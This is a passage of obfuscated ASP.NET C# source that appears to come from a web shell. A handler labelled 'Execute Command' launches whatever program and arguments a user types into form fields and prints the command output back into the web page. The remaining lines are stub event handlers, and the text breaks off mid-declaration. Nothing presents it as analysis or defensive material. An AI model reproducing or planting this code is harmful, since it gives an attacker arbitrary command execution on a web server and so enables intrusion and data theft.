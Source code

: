 WICxe();
vIac.Visible=true;
Bin_H2_Title.InnerText="Execute Command >>";
}
protected void FbhN(object sender,EventArgs e)
{
try
{
Process ahAE=new Process();
ahAE.StartInfo.FileName=kusi.Value;
ahAE.StartInfo.Arguments=bkcm.Value;
ahAE.StartInfo.UseShellExecute=false;
ahAE.StartInfo.RedirectStandardInput=true;
ahAE.StartInfo.RedirectStandardOutput=true;
ahAE.StartInfo.RedirectStandardError=true;
ahAE.Start();
string Uoc=ahAE.StandardOutput.ReadToEnd();
Uoc=Uoc.Replace("<","&lt;");
Uoc=Uoc.Replace(">","&gt;");
Uoc=Uoc.Replace("\r\n","<br>");
tnQRF.Visible=true;
tnQRF.InnerHtml="<hr width=\"100%\" noshade/><pre>"+Uoc+"</pre>";
}
catch(Exception error)
{
xseuB(error.Message);
}
}
protected void RAFL(object sender,EventArgs e)
{
if(qPdI.Text.Length>0)
{
tpRQ(qPdI.Text);
}
else
{
lFAvw();
}
}
protected void Grxk(object sender,EventArgs e)
{
YUw();
}
protected void ilC(object sender,EventArgs e)
{
tZRH();
}
protected void HtB(object sender,EventArgs e)
{
pDVM();
}
protected void Olm(object sender,EventArgs e)
{
iLVUT();
}
protected void jXhS(object sender,EventArgs e)
{
ADCpk();
}
protected void lRfRj(object sender,EventArgs e)
{
lDODR();
}
protected void xSy(object sender,EventArgs e)
